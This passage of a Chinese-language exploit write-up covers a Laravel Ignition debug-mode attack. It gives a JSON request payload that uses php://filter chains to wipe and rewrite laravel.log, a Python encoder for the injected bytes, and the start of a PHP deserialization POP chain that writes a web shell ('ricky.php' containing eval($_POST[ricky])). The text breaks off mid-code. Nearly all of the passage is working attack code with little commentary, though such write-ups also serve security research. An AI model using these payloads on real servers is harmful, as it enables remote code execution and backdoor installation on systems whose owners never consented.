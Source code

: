 尝试报错后产生 log 文件, 然后一步清空

```
`{`"solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution", "parameters": `{`"variableName": "username", "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"`}``}`
```

给 log 文件加入前缀

```
"viewFile": "AA"
```

将需要写入的字符编码

```
# -*-coding:utf-8-*-
import base64
s = base64.b64encode(b'PAYLOAD').decode('utf-8')
r = ''.join(["=" + hex(ord(i))[2:] + "=00" for i in s]).upper()
print(r)
# =55=00=45=00=46=00=5A=00=54=00=45=00=39=00=42=00=52=00=41=00=3D=00=3D=00
```

清空干扰字符

```
"viewFile": "php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
```

[![](https://p4.ssl.qhimg.com/t01e5084afa39453864.png)](https://p4.ssl.qhimg.com/t01e5084afa39453864.png)

成功写入任意字符, 那 log 文件的内容我们就可控了



## POP链1

然后我们只需要完整利用, 拿自己之前挖的 payload 测试一下

```
&lt;?php

namespace Illuminate\Broadcasting `{`
    class PendingBroadcast `{`
        protected $events;
        protected $event;
        public function __construct($events, $event) `{`
            $this-&gt;events = $events;
            $this-&gt;event = $event;
        `}`
    `}`
`}`

namespace Illuminate\Validation `{`
    class Validator `{`
        public $extensions;
        public function __construct($extensions)`{`
            $this-&gt;extensions = $extensions;
        `}`
    `}`
`}`

namespace Illuminate\Filesystem `{`
    class Filesystem`{`
        public $path = 'ricky.php';
        public $data = '&lt;?php eval($_POST[ricky]);?&gt;';
```